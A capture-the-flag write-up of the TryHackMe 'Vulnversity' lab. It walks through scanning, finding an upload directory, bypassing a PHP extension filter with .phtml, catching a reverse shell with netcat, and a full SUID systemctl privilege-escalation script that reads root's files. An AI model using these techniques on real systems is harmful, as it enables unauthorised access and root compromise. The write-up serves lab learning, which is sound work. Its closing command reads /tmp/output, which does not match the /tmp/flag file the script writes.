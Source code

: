```yaml
--- 
layout : post
title : TryHackMe Vulnversity
image: /assets/img/Vuln/main.png 
author: Edwards
date: 2020-10-08
categories: [CTF, TryHackMe]
tags: [Web, Linux, Easy, DirBuster, BurpSuite]
math: true
--- 
```


# Vulneversity

## Through this box we are going to learn :

- How to scan a website with nmap.
- Use DirBuster to find directories and files on web servers.
- Use BurpSuite to search for file extensions.
- Take advantage of SUID file to escalate our privileges on a linux system.

### Section 1 : Recon

Let's launch our Nmap scan.
```bash
edwards@kali:/home$ ip=10.10.19.92
edwards@kali:/home$ nmap -T4 -A -p- $ip
```
![image](/assets/img/Vuln/nmap.png)

We can see that a website is running on <ip>:3333 and it's potentially running on a Ubuntu OS

Let's look that website.

![image](/assets/img/Vuln/website.png)

_feel free to check inside the different pages, what you can do on the website etc..._

### Section 2 : Dirbuster

On this section we are gonna use Dirbuster to find sensitive directories.

launch Dirbuster with :
```bash
dirbuster
```
My configuration for the research.
- On the target url : The ip adress of the website with the port.
- File with list of dirs.files : the list avaible on the /usr/share/wordlists/dirbuster (I usually pick the medium one ) 
- File extension : php,js,html,htm (Basic file extensions on website)

![image](/assets/img/Vuln/config.png)

I found something interesting, the website got an internal/uploads page avaible. 
Let's check this page and what messy things we can do.

![image](/assets/img/Vuln/result.png)

As you can see, we can uploads file. Which is very good for us.

![image](/assets/img/Vuln/upload.png)

Try to upload some files with different extensions.
Apparently they don't like php file.

![image](/assets/img/Vuln/php.png)
_After a tentative of php uploading_

### Section 3 : BurpSuite 
_I'm not gonna explain how Burpsuite works in this room, so I will assume that you have a familiarity with Burpsuite already_

We are gonna use BurpSuite to know which php extensions are not blocked.
So let's fuzz the upload form !


Send this to intruder with "right-click" :
![image](/assets/img/Vuln/proxy.png)

I created a list with php extensions : 

![image](/assets/img/Vuln/ext.png)

At payload options, load your list : 
![image](/assets/img/Vuln/payload.png)

At position, erase all $ and add $$ so your .php is between them : 
![image](/assets/img/Vuln/dollars.png)

Then, start the attack ! 

Well.. that's a fail, but let's try manually, we are not gonna stop here.
![image](/assets/img/Vuln/fail.png)

Try to upload test.phtml
![image](/assets/img/Vuln/success.png)

We can see that the extension phtml. 
On TryHackMe you have a file avaible, it's actually a reverse shell, let's upload it on the server.

Before, change in the file the $ip and $port variable to your ip and the port that you are gonna use for the netcat part (1234).

![image](/assets/img/Vuln/variable.png)

With netcat start to listen to incoming connection from the webserver.
```bash
edwards@kali:~/Documents/Vul$ nc -lvnp 1234
listening on [any] 1234 ...
```

Navigate to :
```bash
http://<ip>:3333/internal/uploads/reverse_shell.phtml 
```

On your terminal you should see this :

![image](/assets/img/Vuln/connected.png)

This mean you are inside ! Congrats.

### Section 4 : Bill got pawned 

First we are gonna display the /etc/passwd to find the user that is running the web server.

![image](/assets/img/Vuln/bill.png)

Let's move to bill's directory, maybe the flag is there.
_On easy machine, it's highly possible that the flag is hidden in basic directory_

![image](/assets/img/Vuln/flagbill.png)

### Section 5 : Privilege Escalation
https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/

We are asked to find SUID files to gain access as root. 

I used the command : 
```bash 
find / -perm -u=s -type f 2>/dev/null 
```

The systemctl stands out, 
the systemctl is a controlling interface and inspection tool for the systemd init service.

![image](/assets/img/Vuln/system.png)

I'm not gonna lie, I had no clue what to do with this. 
I found later on this website : https://gtfobins.github.io/gtfobins/systemctl/
a way to use this fault.
I change the id with "/root/root.txt".
```bash
var=$(mktemp).service

echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/flag"

[Install]
WantedBy=multi-user.target' > $var

/bin/systemctl link $var
/bin/systemctl enable --now $var
```

What we have just done is basically take advantage of the systemctl to create a system service and run it as root.
The created service will execute "BASH" then read the flag and redirect the ouptu to our flag file in /tmp.

To have the flag you just have to cat the output file : 
```bash
cat /tmp/output 
```
